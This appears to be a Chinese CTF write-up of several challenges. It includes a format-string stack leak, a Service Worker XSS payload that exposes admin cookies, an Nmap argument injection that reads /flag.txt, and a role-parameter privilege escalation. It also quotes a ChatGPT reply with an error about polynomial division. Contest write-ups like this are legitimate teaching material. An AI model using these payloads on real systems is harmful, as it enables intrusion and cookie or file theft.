取出变量flag1的数据需要利用到漏洞引发格式化字符串攻击。以下是一种可能的取法，需要注意实际操作中可能因内存布局等问题有所变化，攻击者可能需要多次尝试以确定准确的偏移量。
由于在test()函数中，我们知道buf[]是在函数调用栈上的局部变量，它是在flag1[]和printf()调用之间分配的。因此buf[]和flag1[]之间存在一定的栈偏移。
在执行printf()调用时，格式化字符串中的%x可以用来读取栈上的数据，%n可以用于写入数据到栈空间，同时可以使用$来指定参数的位置。
假设buf和flag1之间的栈偏移为 N，那么我们可以构造格式化字符串 %N$x 来读取存储在flag1的内容。
举个例子，如果N为10，那么就可以直接输入%10$s，这样printf函数就会从栈上读取偏移为10的字符串，并将其输出，即输出flag1的值。
需要注意的是，这是一种潜在的攻击方法，是否可行还取决于程序的具体运行环境和状态。如果有必要，可以使用漏洞利用技术对程序进行调试，以观察和确定实际的内存布局和栈空间分配情况。
```
好好好好好！
```
%26$llx %27$llx %28$llx %29$llx
```
它输出了个 `3445527b67616c66 66546e3152705f64 6f735f656430635f a7d595a34655f`，注意这个输出是强行按小端序阅读的结果。
```
flag{RE4d_pR1nTf_c0de_so_e4ZY}\n
```
好好好好好我 C 语言终于入门叻，，、

读 Flag 2 的话就需要劫持掉 `exit`，调用 `system` 函数强行进入 Bash 罢。那就需要泄露 libc 相关的地址。

Binary 已知所以看看 GOT。

### \[Binary\] 绝妙的多项式
进 IDA 大致看了下，发现有个 mint，应该说就是在有限域 $\mathrm{GF}(998244353)$ 作运算。

但是我一看到 IDA 出来的伪代码就困，还是放弃好了。

### \[Algorithm\] 关键词过滤喵，谢谢喵
「字数统计喵」按照十进制计数原理来就好了嘛，满十进一。

所以我……
```
把【.】替换成【丁真】喵
把【\r】替换成【丁真】喵
把【\n】替换成【丁真】喵
把【((丁真)+)】替换成【\1灌注柯洁谢谢喵】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真丁真丁真】替换成【A】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【9】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【8】喵
把【丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【7】喵
把【丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【6】喵
把【丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【5】喵
把【丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【4】喵
把【丁真丁真丁真灌注柯洁谢谢喵】替换成【3】喵
把【丁真丁真灌注柯洁谢谢喵】替换成【2】喵
把【丁真灌注柯洁谢谢喵】替换成【1】喵
把【A】替换成【丁真】喵
把【((丁真)+)】替换成【\1灌注柯洁谢谢喵】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真丁真丁真】替换成【A】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【9】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【8】喵
把【丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【7】喵
把【丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【6】喵
把【丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【5】喵
把【丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【4】喵
把【丁真丁真丁真灌注柯洁谢谢喵】替换成【3】喵
把【丁真丁真灌注柯洁谢谢喵】替换成【2】喵
把【丁真灌注柯洁谢谢喵】替换成【1】喵
把【A】替换成【丁真】喵
把【((丁真)+)】替换成【\1灌注柯洁谢谢喵】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真丁真丁真】替换成【A】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【9】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【8】喵
把【丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【7】喵
把【丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【6】喵
把【丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【5】喵
把【丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【4】喵
把【丁真丁真丁真灌注柯洁谢谢喵】替换成【3】喵
把【丁真丁真灌注柯洁谢谢喵】替换成【2】喵
把【丁真灌注柯洁谢谢喵】替换成【1】喵
把【A】替换成【丁真】喵
把【((丁真)+)】替换成【\1灌注柯洁谢谢喵】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真丁真丁真】替换成【A】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【9】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【8】喵
把【丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【7】喵
把【丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【6】喵
把【丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【5】喵
把【丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【4】喵
把【丁真丁真丁真灌注柯洁谢谢喵】替换成【3】喵
把【丁真丁真灌注柯洁谢谢喵】替换成【2】喵
把【丁真灌注柯洁谢谢喵】替换成【1】喵
把【A】替换成【丁真】喵
把【((丁真)+)】替换成【\1灌注柯洁谢谢喵】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真丁真丁真】替换成【A】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【9】喵
把【丁真丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【8】喵
把【丁真丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【7】喵
把【丁真丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【6】喵
把【丁真丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【5】喵
把【丁真丁真丁真丁真灌注柯洁谢谢喵】替换成【4】喵
把【丁真丁真丁真灌注柯洁谢谢喵】替换成【3】喵
把【丁真丁真灌注柯洁谢谢喵】替换成【2】喵
把【丁真灌注柯洁谢谢喵】替换成【1】喵
把【灌注柯洁谢谢喵】替换成【0】喵
把【^$】替换成【0】喵
谢谢喵
```
嗯，反复替换——毕竟它测试例不会很长，够用了。

### \[Algorithm\] 未来磁盘
硬找循环节，然后把循环部分删掉一大堆强制解压（忽略校验错误）。

不得不承认有运气的成分在——虽说有提示罢，但是看了提示更不懂了，所以我其实也没依赖提示。

中途 HxD 报「边界检查错误」差点以为前功尽弃。

非常好题目，就是做完之后我 SSD 估计也快报废了啊嗯。

（毕竟循环节找错的话就白做了）

### \[Algorithm\] 华维码
Hard 部分没甚么好说的，先把能定的位置定了然后穷举筛查就行。要注意的是 QR 码本身有一些定死的像素，它可以作为筛查的约束条件。


扫出来就是 Flag。

Nano 部分运气实在爆棚——不知为何从 Fiddler 存下来的分块图片名都是数字序号，摆好定位点后按序号从左到右从上至下拼剩下的块，居然一遍过了……

能拼出来倒也是个奇迹。其实我觉得分块细化了容错程度应该还更高了。

——你以为我真的不知道正解吗？

将 Version 7（即 45×45）的 QR 码按 5×5 分割成 81 块，不难看出最中间的校正图形被完整切下。但是从服务器获取的 80 张图中并没有出现完整的校正图形，说明丢弃的刚好只有这一块。

接下来再把能够确定的含有寻象图形和校正图形的块拼出来就好，于是只剩下了 63 块。


这时候已经能从角标看出纠错等级为 L，掩码款式是 1。

然后推断右下角是甚么。第一个块一般是 8-bit Byte（0100），也有可能是 ECI（0111）；别的基本不用考虑。

既然如此，最右下角两个像素从左到右就应该是白黑，两者之上的像素或者全白或者全黑。而且考虑到那一块沾了点校正图形的边，左上角的像素必须是黑色。于是只有 010d1361.png 符合要求。

这下只剩下 62 块了。


……《只》？你先别急喵，看看多拼出来的块有甚么信息喵。

按 Z 字形阅读第一组八位得到 01000011——0100 说明它是 8-Bit Byte 模式，0011 说明它的长度在 48（即 01000000）和 63（即 01001111）之间。

就 QR Version 7 而言数据实际上是按八位组交错排列，L 纠错等级下 8-bit Byte 模式的最大容量是 154。63 比起 154 的一半来说还是小了个 14，所以有理由认为第二组八位已经是填充数据了。

可用的填充数据是 11101100 和 00010001，而且是交替填充。继续按 Z 字形阅读第二组八位，得到 00??????——它应该就是 00010001。

填充一看，那一块的右下角是黑白黑黑黑白的卜字形呢。

继续给第四组八位填 11101100，给第六组八位填 00010001，这样操作下去不就得到更多的像素信息了吗？

比方说，我先填个那么两排试一下。


以此作为约束再拼几块。


虽然还剩 58 块，但这无疑增强了信心。只要不断前进，道路就会不断延伸，所以，不要停下来啊！

不知过了多少个普朗克时间……


顺带一提上面的填充及拼图过程全是我依赖肉眼观察手做的，用机器做说不定能秒出。从 14:30 做到 19:57 还剩 20 块，嗯做到 20:09，余下 15 块。


嘛人一懒就是这样的，宁愿手做都不愿意写程式（

一看 [QRazyBox](https://merri.cx/qrazybox/)：
```
Padding Bits Recovery
Recover missing bits by placing terminator and padding bits
```
……我人肉补了个寂寞啊！

咳咳反正我也没补完让它帮我补补好了。


即便如此，仍余下 12 块：


这可怎么办呢？别急，还有版本信息和定位图形（虚线）的约束条件没用到。


这时尚余 8 块——还能不能继续约束呢？当然可以！

不妨手工阅读一部缺失的文本内容：

(E)6769746875622??3(6)

想必它本来应该是「.github.co」：

(E)6769746875622E63(6)

所以缺失的位就是 11100110，这样就又多出了一个约束条件。




现在只剩下 7 块了，所以就来进行一个愉快的穷举罢——我不是说让你把所有块穷举掉，而是只穷举右下角的内容块，它只有 8f6c7c18.png 和 eefc9c6a.png 两种可能！

可以用 QRazyBox 解码数据，就不用人工阅读了，节省时间（

如果用 8f6c7c18.png 填充的话会得到乱七八糟的 e964=Gecc94b3，这是不合理的——那一块应当是小写十六进制。

用 eefc9c6a.png 填充则得到了全文 https://gist.github.com/Konano/e9f437ecc94b20005ee6defdd7d46834，这就对了！


可是点开一看……


「我裤子都脱了你就给我看这个？」

所以我隐隐约约感觉 Nano 其实有坑，我还需要在网页提交的华容道的结果。

剩下的块怎么办呢？用相同的参数重新生成就好了。

建议用 [nayuki/QR-Code-generator](https://github.com/nayuki/QR-Code-generator) 生成 QR 码，这玩意能细致控制内容位。

生成完是这样子的：


容易验证它和剩下的块能对得上。

于是我开始肉拼华容道。又不知过了多少个普朗克时间，终于以两千余步拼完，顺利提交。


（其实如果通 Hard 的话得到的还是 Flag 1）

顺带一提，我后来找到了 [Sliding Puzzle Solver](https://alexyuisingwu.github.io/sliding-puzzle-solver/)。

选 Strategically 然后录屏，跟着它一步步操作就好了——但是考虑到步数近两千步，很容易跟不上而不知道拼到了哪里，不如自己学会规则然后拼，，、（

### \[Web\] 未公开题目：prob03


「嗳涐僦対涐ぬ嚸，莂总恠外缅廆绲，栲虑栲虑涐の感绶。」


观察 home.php 处的网页注释可以发现 role_change.php，将 mid 与 role 均设为 1 可将游客更改为正式会员。


所有账户的退款订单池共用，所以不断注册小号就可以实现众筹。


```
flag{WhaT_4_Cr4Zy_7hur5d4Y}
```
<del>真在星期四做这题就三五折优惠了啊嗯</del>

## 第二阶段
### \[Web\] 第三新XSS
#### 记忆
首先以 `application/javascript` 类型创建 Service Worker：
```JSON
{"Content-Type": "application/javascript", "Service-Worker-Allowed": "/"}
```
```JavaScript
self.addEventListener('fetch', (event) => {
    if (event.request.clone().url.includes('admin')) {
        event.respondWith(new Response('<script>setTimeout(\'document.title = `\\\\u{770B}\\\\u{770B}\\\\u{5927}\\\\u{51E0}\\\\u{628A}\\\\u{FF01}${document.cookie}`;\', 800);</script>', { headers: { 'Content-Type': 'text/html' } }).clone());
    };
});
```
然后注册该 Service Worker：
```HTML
<script>navigator.serviceWorker.register('/kannkann/', { scope: '/' });</script>
```
接下来就来（略）啊嗯。


### \[Web\] 简单的打字稿
#### Super Easy
我让 ChatGPT 写了个把 String literal type 拆分的代码，然后稍加修改：
```TypeScript
type Split<S extends string, D extends string> = string extends S ? string[] : S extends '' ? [] : S extends `${infer T}${D}${infer U}` ? [...Split<U, D>] : [S];
type ikuzo = Split<flag1, 'flag'>;
let x: ikuzo = ['1919810'];
```
于是它非常顺利地报错了：
```
[+] Stderr:
Check file:///app/$deno$stdin.ts
error: TS2322 [ERROR]: Type '"1919810"' is not assignable to type '"{TOo0_e4sY_f1aG_foR_Tooo_easy_LANg}"'.
let x: ikuzo = ['1919810'];
                ~~~~~~~~~
    at file:///app/$deno$stdin.ts:6:17
```

### \[Web\] 逝界计划
配置 Nmap 集成：
```Bash
-iL /flag.txt -o /media/cdrom/flag.png
```
然后在媒体集成把档案下回来即可。

### \[Binary\] 绝妙的多项式
「ChatGPT 或许能帮你辨认出小 Y 给的信息。」

那就问 ChatGPT 呗。
```
小Y是一个计算机系的同学，但是非常不幸的是他需要上很多的数学专业课。
某一天，他正看着书上一堆式子发呆的时候，突然灵光一闪，想到几个绝妙的多项式。
他想考考你能不能猜出多项式是多少？
当然大家都不会读心术，小Y给了一些信息
提示：
如何在 Zp 空间中进行除法，对多项式是否有类似的方法？
```
```
小Y提出的问题是一个很有趣的挑战。在数学和计算机科学中，Zp（有时也写作Z/pZ）通常指的是模p的整数环，其中p是一个素数。在这个环中，你可以进行加法、减法和乘法，但不能直接进行除法，因为不是所有元素都有乘法逆元。但是，如果你要除以一个与p互质的数（即，最大公约数为1），那么可以找到一个乘法逆元，从而实现除法。
现在，关于多项式的问题，我们需要考虑的是在一个类似于Zp的结构中的多项式环，通常表示为Zp[x]，其中的元素是系数在Zp中的多项式。在这个环中，我们也可以进行加法、减法和乘法。至于除法，情况就比较复杂了。
1. 首先，如果我们谈论的是在Zp[x]中除以一个常数，那么只要这个常数在Zp中有逆元，我们就可以把每个系数都除以这个常数。这是因为多项式环的每个系数都遵循Zp的规则。
2. 如果我们要在Zp[x]中除以一个多项式，情况就更加复杂。这种除法（实际上是“多项式的除法算法”）通常会涉及找到商多项式和余数多项式，就像在实数中的长除法一样。但是，这只有在除数多项式是可约的（即，不能分解为更小的多项式）并且其最高次系数有逆元时才有可能。
总的来说，能否进行除法以及如何进行，取决于具体你要除以什么。小Y可能已经考虑到了在Zp[x]中的多项式除法的复杂性，并想通过这个问题来考验你对这个主题的理解。不过，要精确猜出他心中的多项式是什么，我们可能需要更多的信息或者一些特定的条件或规则，因为在Zp[x]中可能有无限多个多项式。
```
当然我作为一个数学人（自认为）而非计算机人，视角自然还是着重于它的代数结构（我之前就说过想补补有限域理论！）：
```
其实 Zp 就是循环群 GF，对吗？
```
```
对的，你说得很对。Zp 是一个循环群，它在加法运算下是循环的。Zp 是由元素0, 1, 2, ..., p-1组成（其中p为素数），并在模p的加法运算上形成循环群，称为加法群。
如果我们考虑非零元素的乘法，将得出一个有p-1个元素的乘法群。也就是非零元素1, 2, ..., p-1在模p的乘法运算下同样形成一个循环群。换句话说，你可以找到一个元素，通过不断地自我乘法，可以生成整个群的所有元素。
这样的乘法群也被称为有限域或伽罗华域（Galois Field），记作GF(p)。然而，强调一点，当p为素数时，Zp和GF(p)在加法和乘法的运算规则上事实上是相同的。但在更广泛的意义上，有限域GF(p^n) (n>1) 还包括了由p^n个元素组成的结构，这时我们就需要考虑多项式的运算了。
```
```
至少我知道整数 n 在素有限域 GF(p) 中的乘法逆元是 n^(p-2)，没错吧？
```
```
是的，你是对的！在素数有限域 \( GF(p) \) 中，费马小定理（Fermat's Little Theorem）告诉我们，如果 \( n \) 是一个与 \( p \) 互质的整数（即 \( n \) 不是 \( p \) 的倍数），那么：
\[ n^{p-1} \equiv 1 \mod p \]
从上式我们可以得出，\( n \times n^{p-2} \equiv 1 \mod p \)。这意味着，\( n^{p-2} \) 是 \( n \) 在 \( GF(p) \) 中的乘法逆元。
因此，如果你想在 \( GF(p) \) 中计算 \( n \) 的乘法逆元，你只需计算 \( n^{p-2} \) mod \( p \) 即可。这是一个非常有用的性质，特别是在密码学和编码理论中。
```
```
但是对于多项式来说，是否还有甚么值得注意的点？
```
```
对于有限域 \(GF(p)[x]\) 中的多项式来说，也存在一些有趣和重要的点。以下是一些值得注意的关键点：
1. **单位多项式**：在有限域 \(GF(p)\) 中，数字 1 是单位元素，即对任何元素 \(a\)，都有 \(1 \times a = a\). 同样，在多项式环 \(GF(p)[x]\) 中，常数多项式 1 也是单位元素。
2. **多项式乘法的逆元**：不是所有多项式都有乘法逆元。只有那些次数为0的多项式（即常数非零多项式）才可能有乘法逆元。对于这些多项式，它们在 \(GF(p)\) 中的逆元也是它们在 \(GF(p)[x]\) 中的逆元。
3. **多项式除法**：在多项式环中，我们可以使用**多项式的长除法**来除以另一个多项式。这与我们在小学学到的数字长除法非常相似。结果会得到一个商和余数。
4. **不可约多项式**：在有限域 \(GF(p)[x]\) 中，不可约多项式扮演了类似于整数中的素数的角色。一个多项式在 \(GF(p)[x]\) 中是不可约的，意味着它不能被分解为两个非常数多项式的乘积。
5. **多项式的因式分解**：类似于整数的因式分解，多项式也可以分解为不可约多项式的乘积。这个因式分解在给定的有限域中是唯一的（忽略因子的顺序）。
6. **多项式的求根**：给定一个多项式 \(f(x)\) 和一个有限域 \(GF(p)\)，我们可以寻找该多项式在该域中的根，也就是使 \(f(x) = 0\) 的值。
7. **有限域的扩展**：\(GF(p^n)\) 是一个包含 \(p^n\) 个元素的有限域，并且可以被看作是由 \(GF(p)\) 上的多项式构造出来的，其中多项式的次数小于 \(n\)。其中，\(GF(p^n)\) 的一个重要性质是它可以由一个不可约的 \(n\) 次多项式生成。
这些是与 \(GF(p)[x]\) 相关的一些关键概念和性质。理解这些性质对于深入研究有限域和与之相关的领域（如密码学、编码理论和数论）是非常有益的。
```
```
我想我需要解决的恰恰就是多项式的求根问题，因为我事实上持有一组 GF(998244353) 下的多项式方程组（尽管我现在还不知道它的具体系数，它是用计算机程序代码生成的）——问题就在于如何求出这个方程组的解。
```
```
在有限域`GF(p)`中求解多项式方程的问题往往依赖于具体的多项式和有限域。另外，在特定的应用中使用数值方法，如Newton法，或是用一个已知的解或猜测的解来进行逐步迭代，也很有可能会得出所有的解。 
对于有限域`GF(998244353)`（注意`998244353`是一个非常大的素数），解决多项式方程可能需要更为高级的数学技巧，特别是当方程的次数增加时。对于程序员来说，可能需要将这个问题切分为更小的子问题，然后针对每个特定问题设计或选择合适的算法。
如果你的多项式方程组是用计算机程序生成的，那么你可能可以利用生成这个方程组时使用的信息或结构来帮助求解。例如，如果你的程序生成的多项式有某种特定的结构（如只包含特定次数的项，或者所有的多项式都有某种相互关联的关系），那么可能有更有效的方法来求解这些方程组。
总体来说，解决你的问题可能需要一些独立的研究和深入的学习。这是一个非常有吸引力和挑战性的问题，当然也需要一个深入的理解有限域和多项式方程的基础知识。如果遇到困难的话，不要气馁，解决这类问题通常需要时间和耐心。有时候，与导师或专业的同伴探讨，或者搜索相关的文献资料也会有所帮助。
```
……该死，我抽象代数忘得差不多了，数论更是一点不会。可是以上内容我一开始就都知道啊，这不是一点用都没有吗，，、

第一阶段大致判断出 mint 就是在有限域 $\mathrm{GF}(998244353)$ 作运算这点，可我实在没有别的头绪了。

没办法，只好硬着头皮看。

IDA，启动！

#### Baby
Flag 1 对应的是 sub_1803，要输入的是长为 36 的字符串。

dword_5020 位于档案的 0x4020 处，长达 144 字节，应该是按 UInt32 存储的多项式在一些情形的值。

其中 IDA 给出的伪代码是这样的：
```CPP
    for ( j = 1; j <= v14; ++j )
    {
      v8 = 0;
      v9 = 1;
      for ( k = 0; k < v14; ++k )
      {
        v4 = mint::operator*((char *)s + 4 * k, v9);
        mint::operator+=(&v8, v4);
        mint::mint((mint *)&v10, j);
        mint::operator*=(&v9, v10);
      }
      if ( v8 != dword_5020[j - 1] )
      {
        v5 = std::operator<<<std::char_traits<char>>(&std::cout, "Failed, please try again!");
        std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
        v2 = 1;
        goto LABEL_15;
      }
    }
```
我在第一阶段就被这几层循环吓怕了。其实，把这段伪代码整理一下，大概是这样的意思：
```JavaScript
let j = 1;
while (j <= 36) {
    let x = 0;
    let y = 1;

    let k = 0;
    while (k < 36) {
        x += str[k] * y;
        y *= j;
        k += 1;
    };

    if (x !== dword_5020[j - 1]) {
        console.log('不对哟！');
        break;
    };

    j += 1;
};
```
稍微改改变成输出数学表达式字符串的程式，然后丢去 Node.js 跑跑。我还真观察出了点东西。

所以说这个方程组的真相其实是……

$\displaystyle\sum_{k=0}^{35}\mathrm{str}_kj^k=\mathrm{known}_{j-1}$（其中 $j\in\mathbb{Z}\cap[1,36]$）

36 个未知数，36 个方程，解这个方程组就完事了。

它根本就不那么可怕嘛！只是我就被伪代码那一串复杂的函数名吓退了。

原来，字符就是项的系数，它的位置就是项的幂次！

非常喜欢 Ishisashi 的一句话：「啊？」

代码看上去这么吓人，写成数学表达式就这么简单，赔钱！

可惜上课耽误了我做题的时间，一下课我就赶紧（恨不得以光速！）跑回宿舍，然后……

Mathematica，启动！
```Wolfram
known = {3318, 382207753, 141261786, 100396702, 617742273, 385313506, 368063237, 562832377, 857094849, 53657966, 669496487, 605913203, 29815074, 762568211, 133958153, 223410103, 39956957, 937802638, 229055941, 767816204, 13414714, 795034084, 184947163, 171452954, 272370098, 484621960, 430570773, 639750081, 695262892, 144991146, 292318513, 573477240, 867813853, 798543925, 12064634, 874910184}
str = Table[ToExpression /@ Table["str" <> ToString[n], {n, 0, 35}]]
(* 注意 Wolfram 语言的 List 比较反人类，元素下标从 1 开始而非 0 开始 *)
(* ↑反人类？反机器！先入为主了是罢（ *)
Solve[Table[Sum[str[[k+1]] j^k, {k, 0, 35}] == known[[j]], {j, 1, 36}], Table[str[[n+1]], {n, 0, 35}], Modulus -> 998244353]
```
啪的一下，很快啊，MMA 立马给我输出了结果：
```Wolfram
{{str35->125,str34->101,str33->71,str32->110,str31->52,str30->82,str29->103,str28->64,str27->108,str26->95,str25->102,str24->111,str23->95,str22->114,str21->51,str20->84,str19->36,str18->65,str17->109,str16->95,str15->69,str14->72,str13->84,str12->95,str11->101,str10->114,str9->65,str8->95,str7->85,str6->111,str5->121,str4->123,str3->103,str2->97,str1->108,str0->102}}
```
最终我在比赛快要结束的那一刹那满意交上了 Flag 1！


可惜最终以 25 名不幸垫底。

顺带一提，它不是出的十进制数据吗？我急着把它转成十六进制丢去解码，所以打开了 Excel。


「有人做 CTF 用 Excel，我不说是谁——」

### \[Algorithm\] 关键词过滤喵，谢谢喵
#### 排序喵
感觉要用到循环的样子，不过效率不能太低了所以还优化了一会。
```
把【(\r\n)+】替换成【\n】喵
把【(\r)+】替换成【\n】喵
把【(\n)+】替换成【\n】喵
把【^\n】替换成【】喵
把【\n$】替换成【】喵
把【$】替换成【\n】喵
把【([^\n]+)\n】替换成【可恶的\1\n\1售人控\n】喵

如果看到【可恶的】就跳转到【可恶的售人控】喵

可恶的售人控：
把【[^\n]售人控\n】替换成【售人控\n】喵
把【可恶的([^\n]+)\n售人控】替换成【\1】喵
重复把【((可恶的[^\n]+\n[^\n]+售人控\n)+)(((?!可恶的)[^\n]+(?!兽人控)\n)+)】替换成【\3\1】喵
如果看到【可恶的】就跳转到【可恶的售人控】喵

把【\n$】替换成【】喵

谢谢喵
```

### \[Algorithm\] 小章鱼的曲奇
#### SUPA BIG Cookie
我瞎猫撞死耗子，把它吐出来的第一个数直接喂回去，居然蒙混过关了。

## Omake：问卷


